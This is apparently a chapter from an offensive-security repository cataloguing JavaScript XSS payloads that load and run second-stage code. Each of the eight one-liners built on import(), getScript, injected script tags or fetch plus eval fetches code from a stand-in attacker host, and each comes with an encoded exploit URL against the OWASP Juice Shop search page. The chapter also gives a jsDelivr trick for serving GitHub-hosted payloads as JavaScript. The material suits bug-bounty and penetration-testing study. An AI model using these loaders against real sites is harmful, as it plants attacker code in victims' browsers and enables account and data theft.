 # Second Stage JavaScript Payload Loaders

<p align="justify">This chapter documents JavaScript payloads used to load and execute second stage payloads.</p>

<p align="justify">Although a lot of amazing online resources exist on the topic of XSS, none that i am aware of cover second stage payload loaders in more detail.</p>

* **NOTE**: this is not an exhaustive list - further payload options and options for modifying the payload exist
    * all payloads listed here are proven to work and have been battle-tested on Bug Bounty platforms
    * depending on the scenario, one may work over another
        * overall, in most scenarios, at least one of them works
            * if not, explore available options for "saying the same in a different way" (i.e. adapt to target environment)
            * if required, deal with Content Security Policy (CSP; not covered here)
    * list may be updated with additional payloads or different variants

In case the second stage payload is hosted on GitHub (`Content-Type: text/plain`) and the loader payload requires `Content-Type: application/javascript`, use the following endpoint to achieve this conversion:

* https://cdn.jsdelivr.net/gh/GITHUB_USERNAME/GITHUB_PROJECT_NAME/GITHUB_PROJECT_PATH/GITHUB_JS_FILE
    * e.g.
        * original: https://raw.githubusercontent.com/lighthouseitsecurity/weaponizedXSS/refs/heads/main/basic/simplePoC/simpleStd.js
        * proxied: https://cdn.jsdelivr.net/gh/lighthouseitsecurity/weaponizedXSS/basic/simplePoC/simpleStd.js

## `import()` - round brackets; quote; `Access-Control-Allow-Origin` required

```
import('//ATTACKER_WS/PATH/JS_PAYLOAD');
```

* *(live example - OWASP juice shop - DOM XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22import(%27%2F%2Fcdn.jsdelivr.net%2Fgh%2Flighthouseitsecurity%2FweaponizedXSS%2Fbasic%2FsimplePoC%2FsimpleStd.js%27)%3B%22%3E

## [jQuery] `$.getScript()` - round brackets; quote; dollar

```
$.getScript('//ATTACKER_WS/PATH/JS_PAYLOAD');
```

* *(live example - OWASP juice shop - DOM XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22%24.getScript(%27%2F%2Fcdn.jsdelivr.net%2Fgh%2Flighthouseitsecurity%2FweaponizedXSS%2Fbasic%2FsimplePoC%2FsimpleStd.js%27)%3B%22%3E

## [jQuery] `jQuery.getScript()` - round brackets; quote

```
jQuery.getScript('//ATTACKER_WS/PATH/JS_PAYLOAD');
```

* *(live example - OWASP juice shop - DOM XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22jQuery.getScript(%27%2F%2Fcdn.jsdelivr.net%2Fgh%2Flighthouseitsecurity%2FweaponizedXSS%2Fbasic%2FsimplePoC%2FsimpleStd.js%27)%3B%22%3E

## `appendChild()` #1 - round brackets; quote; equal

```
with(document)body.appendChild(createElement('script')).src='//ATTACKER_WS/PATH/JS_PAYLOAD';
```

* *(live example - OWASP juice shop - DOM XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22with(document)body.appendChild(createElement(%27script%27)).src%3D%27%2F%2Fcdn.jsdelivr.net%2Fgh%2Flighthouseitsecurity%2FweaponizedXSS%2Fbasic%2FsimplePoC%2FsimpleStd.js%27%3B%22%3E

## `appendChild()` #2 - round brackets; quote; equal; space

```
var js=document.createElement('script');js.type='text/javascript';js.src='//ATTACKER_WS/PATH/JS_PAYLOAD';document.body.appendChild(js);
```

* *(live example - OWASP juice shop - DOM XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22var%20js%3Ddocument.createElement(%27script%27)%3Bjs.type%3D%27text/javascript%27%3Bjs.src%3D%27%2F%2Fcdn.jsdelivr.net%2Fgh%2Flighthouseitsecurity%2FweaponizedXSS%2Fbasic%2FsimplePoC%2FsimpleStd.js%27%3Bdocument.body.appendChild(js)%3B%22%3E

## `fetch()` #1 - round brackets; right angle bracket; quote; equal; `eval()`; `Access-Control-Allow-Origin` required; works with `Content-Type: text/plain`

```
fetch('//ATTACKER_WS/PATH/JS_PAYLOAD').then(r=>r.text().then(t=>eval(t)));
```

* *(live example - OWASP juice shop - DOM XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch(%27%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleStd.js%27).then(r%3D%3Er.text().then(t%3D%3Eeval(t)))%3B%22%3E

## `fetch()` #2 - round brackets; curly brackets; quote; space; `eval()`; `Access-Control-Allow-Origin` required; works with `Content-Type: text/plain`

```
fetch('//ATTACKER_WS/PATH/JS_PAYLOAD').then(function(r){return r.text().then(function(t){return eval(t);})});
```

* *(live example - OWASP juice shop - DOM XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch(%27%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleStd.js%27).then(function(r)%7Breturn%20r.text().then(function(t)%7Breturn%20eval(t);%7D)%7D)%3B%22%3E

## `fetch()` #3 - round brackets; curly brackets; quote; equal; space; `eval()`; `Access-Control-Allow-Origin` required; works with `Content-Type: text/plain`

```
async function g(f){o=await fetch(f);t=await o.text();eval(t);};g('//ATTACKER_WS/PATH/JS_PAYLOAD');
```

* *(live example - OWASP juice shop - DOM XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22async%20function%20g(f)%7Bo%3Dawait%20fetch(f);t%3Dawait%20o.text();eval(t);%7D;g(%27%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleStd.js%27)%3B%22%3E
